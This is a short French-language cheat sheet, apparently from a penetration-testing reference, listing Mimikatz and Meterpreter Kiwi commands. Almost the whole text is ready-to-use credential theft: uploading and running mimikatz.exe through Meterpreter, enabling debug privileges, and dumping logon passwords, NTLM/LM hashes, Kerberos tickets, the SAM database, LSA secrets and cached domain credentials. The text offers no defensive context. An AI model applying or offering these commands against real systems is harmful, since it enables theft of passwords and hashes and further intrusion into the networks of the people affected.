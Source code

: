 ### Mimikatz 

#### 🎯 Via Meterpreter (avec Kiwi - Intégré)
| Commande Kiwi | Équivalent Mimikatz | Description |
|---------------|---------------------|-------------|
| `load kiwi` | - | Charger extension (intégré) |
| `creds_all` | `sekurlsa::logonpasswords` | Dump complet |
| `creds_msv` | `sekurlsa::msv` | Hashes NTLM/LM |
| `creds_wdigest` | `sekurlsa::wdigest` | Passwords WDigest |
| `creds_kerberos` | `sekurlsa::kerberos` | Tickets Kerberos |
| `lsa_dump_sam` | `lsadump::sam` | Dump SAM |
| `lsa_dump_secrets` | `lsadump::secrets` | Dump LSA secrets |

#### 💻 Mimikatz Standalone
```cmd
# Méthode 1: Upload et exécution via Meterpreter
upload /path/to/mimikatz.exe C:\\temp\\mimikatz.exe
shell
cd C:\\temp
mimikatz.exe

# Dans Mimikatz
privilege::debug
sekurlsa::logonpasswords
lsadump::sam
lsadump::secrets
exit
```

#### 🔄 Mimikatz Standalone (Accès direct)
| Commande | Description |
|----------|-------------|
| `mimikatz.exe` | Lancement interactif |
| `privilege::debug` | Activer privilèges debug |
| `sekurlsa::logonpasswords` | Dump passwords en mémoire |
| `sekurlsa::wdigest` | Credentials WDigest |
| `sekurlsa::msv` | Hashes NTLM/LM |
| `sekurlsa::kerberos` | Tickets Kerberos |
| `sekurlsa::tspkg` | Terminal Services |
| `lsadump::sam` | Dump SAM (nécessite SYSTEM) |
| `lsadump::secrets` | Dump LSA secrets |
| `lsadump::cache` | Domain cached credentials |
